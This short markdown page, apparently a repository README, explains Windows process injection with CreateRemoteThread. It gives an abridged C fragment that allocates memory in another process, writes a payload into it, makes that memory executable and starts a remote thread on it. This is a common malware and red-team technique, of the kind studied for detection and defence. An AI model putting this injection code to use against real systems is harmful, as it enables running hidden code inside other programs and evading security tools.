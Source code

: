 # Create Remote Thread Injection

**CreateRemoteThread** is a Windows API function that allows its caller to remotely  
start a thread in another process. We can use this function along with  
**VirtualAllocEx** in order to Allocate a new memory space in a target process  
and additionally use **WriteProcessMemory** to write our payload to the newly  
allocated memory.

```
int main(void)
{
    (...)

    if (!(exec_mem = VirtualAllocEx(hProcess, NULL, size+1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)))
    {
        CloseHandle(hProcess);
        return -1;
    }

    if (!(WriteProcessMemory(hProcess, (LPVOID)exec_mem, (LPVOID)payload, size+1, NULL)))
    {
        return -1;
    }

    if (!(bSuccess = VirtualProtectEx(hProcess, exec_mem, size, PAGE_EXECUTE_READ, &old_protect)))
    {
        return -1;
    }

    if (!(hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL)))
    {
        return -1;
    }

    (...)
}
```

